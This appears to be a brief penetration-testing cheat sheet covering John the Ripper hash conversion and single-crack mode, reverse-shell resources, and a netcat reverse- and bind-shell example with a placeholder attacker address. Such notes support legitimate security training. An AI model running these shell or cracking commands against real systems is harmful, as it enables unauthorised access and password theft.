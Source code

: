 ```
rar2john [options] [rar file] > [output file]
```
convert the rar file into a hash format that John is able to understand

```
ssh2john [options] [rsa file] > [output file]
```
convert the ssh file into a hash format that John is able to understand

```
john --single --format=[format] [path to file] 
```
--single mode is used for username mangling
>If you're cracking hashes in single crack mode, you need to change the file format that you're feeding john for it to understand what data to create a wordlist from. You do this by prepending the hash with the username that the hash belongs to, so according to the above example- we would change the file hashes.txt from: `1efee03cdcb96d90ad48ccc7b8666033` To `mike:1efee03cdcb96d90ad48ccc7b8666033`


```
Intruder tab on Burpsuite
```

---
# Reverse Shells

Payloads all the Things
>https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Reverse Shell Cheatsheet
>https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Reverse Shell Generator
>https://www.revshells.com/

Metasploit has several payloads under “cmd/unix” that can be used to generate one-liner bind or reverse shells:
```shell
msfvenom -l payloads | grep "cmd/unix"
```

---

### Reverse Shell example

starts a listener
on the attacking machine
`sudo nc -lvnp 443

Run on the target to connect with a shell 
`nc <LOCAL-IP> <PORT> -e /bin/bash

OR
Connecting to this  listener with netcat would result in a bind shell on the target
`nc -lvnp <PORT> -e /bin/bash`

---